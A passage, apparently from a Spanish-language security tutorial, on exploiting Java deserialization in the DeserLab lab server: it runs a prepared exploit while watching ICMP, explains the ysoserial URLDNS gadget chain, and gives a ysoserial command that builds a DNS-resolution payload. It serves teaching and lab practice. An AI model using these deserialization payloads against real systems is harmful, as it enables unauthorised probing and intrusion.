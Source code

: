 Ahora escuchemos cualquier paquete ICMP en la interfaz de bucle invertido (127.0.0.1) mientras atacamos el servidor DeserLab usando nuestro exploit recién preparado

```
tcpdump -i lo icmp
python serialization.py
```

> El servidor recibió la conexión y se ejecutó el ping

### Análisis de la carga útil de URLDNS <a href="#analysis-of-urldns-payload" id="analysis-of-urldns-payload"></a>

_URLDNS_ es una carga útil de Ysoserial. No da lugar a la ejecución de código

* En su lugar, hace que el punto de conexión de deserialización resuelva un nombre DNS arbitrario.
* Tiene un bajo impacto, pero por otro lado utiliza características integradas de Java, por lo que es probable que funcione en casi todos los casos.

```
https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
```

Podemos observar una cadena de artilugios de 4 objetos

Cadena de gadgets:

```
HashMap.readObject()
  HashMap.putVal()
    HashMap.hash()
      URL.hashCode()
```

\*HashMap.readObject()\*\* hace que Java cree una instancia del objeto deserializado tras una deserialización exitosa. El mapa hash contiene un objeto URL con hash, que debido a los mecanismos incorporados de Java, se resolverá correctamente.

* Está diseñado en el método público getObject
* HashMap es un tipo de datos Java que almacenaba datos en pares clave-valor, y a menudo se usa en exploits de deserialización

En primer lugar, **se usa SilentURLStreamHandler** para no resolver la dirección URL al crear el objeto serializado. La variable **url** es la URL proporcionada por el usuario que se va a resolver.

* línea 55, se define un nuevo HashMap
* luego, se asigna un tipo de datos java.net.URL al Hashmap, a la clave **u**
* a continuación, se calcula el código hash de la URL. Tras la deserialización, la URL en la que se calculó el código hash se resolverá, lo que dará como resultado una resolución de DNS arbitraria.

### Exploit de resolución de DNS arbitrario <a href="#arbitrary-dns-resolution-exploit" id="arbitrary-dns-resolution-exploit"></a>

La carga útil se genera en el archivo p.bin, que se utilizó anteriormente para ejecutar ping

```
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://somethingnonexistent.com > DeserLab/DeserLab-v1.0/p.bin
```
